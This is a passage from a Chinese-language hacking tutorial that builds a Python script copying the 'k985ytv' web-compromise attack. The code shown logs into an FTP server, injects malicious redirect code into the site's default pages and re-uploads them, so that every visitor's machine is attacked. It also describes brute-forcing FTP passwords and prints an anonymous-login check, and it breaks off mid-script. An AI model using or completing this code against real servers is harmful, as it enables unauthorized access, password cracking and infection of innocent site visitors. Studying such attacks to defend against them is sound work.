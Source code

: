 [分析：](#%E5%88%86%E6%9E%90%EF%BC%9A)

[二、完整](#%E4%BA%8C%E3%80%81%E5%AE%8C%E6%95%B4)

[分析：](#%E5%88%86%E6%9E%90%EF%BC%9A)

---


## 一、最后一步：

> 
<h3>分析：</h3>
整个的攻击最后一步：attack(）函数
1、attack(）函数的输入参数包括一个用户名、密码、主机名和重定向的位置。该函数首先用用户名／密码登录FTP 服务器。
2、 这个脚本会搜索默认网页，并下载每个被找到的网页， 并在其中加入恶意重定向代码。
3、 脚本会将被挂马的网页传回FTP 服务器， 任何访问该Web 服务器的机器都将会被黑

<pre><code>def attack(username, password, tgtHost, redirect):
    ftp = ftplib.FTP(tgtHost)
    ftp.login(username, password)
    defPages = returnDefault(ftp)
    for defPage in defPages:
        injectPage(ftp, defPage, redirect)</code></pre>


---


---


## 二、完整

> 
<h3>分析：</h3>
通过添加一些命令行参数的解析代码， 完成整个脚本
<hr/>
首先看FTP 服务器能不能匿名访问。不能， 就暴力破解口令，能破解出口令或FTP 能匿名登录， 登录到FTP 站点上去发动攻击。尽管只用了数百行代码， 但它完全复制了k985ytv 攻击中使用的攻击载体。
<pre><code>import ftplib
import optparse
import time


def anonLogin(hostname):
    try:
        ftp = ftplib.FTP(hostname)
        ftp.login('anonymous', 'password')
        print('\n(*) ' + str(hostname) + ' FTP Anonymous Logon Succeeded.')
        ftp.quit()
        return True
    except Exception as e:
        print('[*]' + str(e))
        print('\n[-]' + str(hostname) + 'FTP Anonymous Logon Failed.')
        return False
